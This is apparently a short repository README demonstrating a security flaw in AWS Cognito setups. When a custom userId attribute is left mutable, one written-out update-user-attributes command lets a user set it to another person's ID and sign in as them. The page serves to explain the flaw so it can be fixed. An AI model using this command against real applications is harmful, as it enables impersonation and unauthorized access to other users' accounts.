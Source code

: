 # Security Issue Example
## TODO
* User list page for seeing other IDs.

## Cognito user ID Updates
Let's say you have a userId attribute set of `7a2ebb0e-cf7a-4b5e-83b9-21ba8c111418`. If this is mutable then the user could simply update it to be the userId of somebody else:

`aws cognito-idp update-user-attributes --access-token ACCESS-TOKEN --user-attributes Name="custom:userId",Value="d237d215-4f38-45e1-bb1b-660d7ec860ed"`

Logout and back in and now they are in essence logged in as somebody else.
